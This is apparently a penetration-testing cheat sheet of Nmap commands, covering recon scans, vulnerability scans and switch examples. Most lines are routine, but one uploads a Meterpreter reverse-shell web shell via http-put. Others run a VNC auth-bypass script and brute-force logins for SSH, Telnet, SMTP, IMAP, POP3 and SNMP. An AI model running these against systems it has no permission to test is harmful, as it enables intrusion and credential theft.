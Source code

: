 # Nmap

## Most Effective Examples

#### Network Recon

{% code-tabs %}
{% code-tabs-item title="Full Network Recon" %}
```text
nmap -Pn -F -sSU -T5 -oX 10.0.0.0-254.xml 10.0.0.0/24 | grep -v 'filtered|closed' > recon.txt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="Forced TCP & UDP Scan" %}
```text
nmap -Pn -sSU -T4 -p1-65535 -oX 10.1.1.1.xml 10.1.1.1 | grep -v 'filtered|closed'
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="Intense TCP Scan Using Open Ports Found From Forced Scan" %}
```text
nmap -nvv -Pn -sSV -T1 -p$(cat 10.1.1.1.xml | grep portid | grep protocol=\"tcp\" | cut -d'"' -f4 | paste -sd "," -) --version-intensity 9 -oX 10.1.1.1-intense-tcp.xml 10.1.1.1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="Intense UDP Scan Using Open Ports Found From Forced Scan" %}
```text
nmap -nvv -Pn -sUV -T1 -p$(cat 10.1.1.1.xml | grep portid | grep protocol=\"udp\" | cut -d'"' -f4 | paste -sd "," -) --version-intensity 9 -oX 10.1.1.1-intense-udp.xml 10.1.1.1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

**Common HTTP Ports Enumeration**

```text
nmap -sSV -P0 -p"http*" --script http-enum 192.168.37.53 -oG 10.1.1.1-http-scan.txt
```

#### Generic Vulnerability Scans

`nmap -Pn --script vuln <target>`

`nmap -sV --script vulners --script-args mincvss=5.0 <target>`

`nmap -p 139,445 --script= <target>`

`nmap -p 0-65535 -A -v --script unusual-port  <target>`

`nmap -p 80 <target> -script http-put --script-args http-put.url=’file.asp’,http-put.file=’/root/Documents/Exploits/WebShells/windows-meterpreter-staged-reverse-tcp-443.asp’`

## Switch Examples

**Scan a range of IPs:**  `nmap 192.168.1.1-20`  
**Scan a subnet:**  `nmap 192.168.1.0/24`  
**Discover hostnames:**  `nmap -sL 192.168.0.0/24`  
**Scan targets from a text file:**   `nmap -iL list-of-ips.txt`  
**Scan a single Port:**   `nmap -p 22 <target>`  
**Scan a range of ports:**   `nmap -p 1-100 <target>`  
**Scan 100 most common ports \(Fast\):**   `nmap -F <target>`  
**Scan all 65535 ports:**   `nmap -p- <target>`  
**Scan using TCP connect:**   `nmap -sT <target>`  
**Scan using TCP SYN scan \(default\):**   `nmap -sS <target>`  
**Scan UDP ports:**   `nmap -sU -p 123,161,162 <target>`  
**Scan selected ports - ignore discovery:**   `nmap -Pn -F <target>`  
**Detect OS and Services:**   `nmap -A <target>`  
**Scan for all HTTP servce type:** ﻿ `nmap -sTV -p"http*" <target>`  
**Standard service detection:**   `nmap -sV <target>`  
**Banner Grabbing:**   `nmap -sV --script=banner <target>`  
**More aggressive Service Detection:**   `nmap -sV --version-intensity 5 <target>`  
**Lighter banner grabbing detection:**   `nmap -sV --version-intensity 0 <target>`  
**Scan using default safe scripts:**   `nmap -sV -sC <target>`  
**Get help for a script:**   `nmap --script-help=ssl-heartbleed <target>`  
**Scan using a specific NSE script:**   `nmap -sV -p 443 –script=ssl-heartbleed.nse <target>`  
**Scan with a set of scripts:**   `nmap -sV --script=smb* <target>`  
**Discover hostnames:**   `nmap -sL 192.168.0.0/24`  
**DNS Brute Force:**   `nmap -p 80 --script dns-brute.nse <target>`  
**DNS Broadcast Discovery:**   `nmap --script=broadcast-dns-service-discovery`  
**Find Virtual Hosts on IP:**   `nmap -p 80 --script hostmap-bfk.nse <target>`  
**Traceroute GeoLocation:**   `nmap --traceroute --script traceroute-geolocation.nse -p 80 <target>`  
**VNC Auth Bypass:**   `nmap -sV --script=realvnc-auth-bypass <target>`  
**SSL ROCA Weak keys:**   `nmap -p 22,443 --script rsa-vuln-roca <target>`  
**IMAP Brute:**   `nmap -p 143,993 --script imap-brute <host>`  
**pop3 brute:**   `nmap -sV --script=pop3-brute <target>`  
**Unix rexec brute:**   `nmap -p 512 --script rexec-brute <target>`  
**Unix rlogin brute:**   `nmap -p 513 --script rlogin-brute <target>`  
**SIP Brute:**   `nmap -sU -p 5060 --script=sip-brute <target>`  
**SMTP Brute:**   `nmap -p 25 --script smtp-brute <target>`  
**SNMP Brute:** `nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]`  
**SSH Brute:**   `nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst \ --script-args ssh-brute.timeout=4s <target>`  
**Telnet Brute:**   `nmap -p 23 --script telnet-brute --script-args userdb=myusers.lst,passdb=mypwds.lst,telnet-brute.timeout=8s <target>`

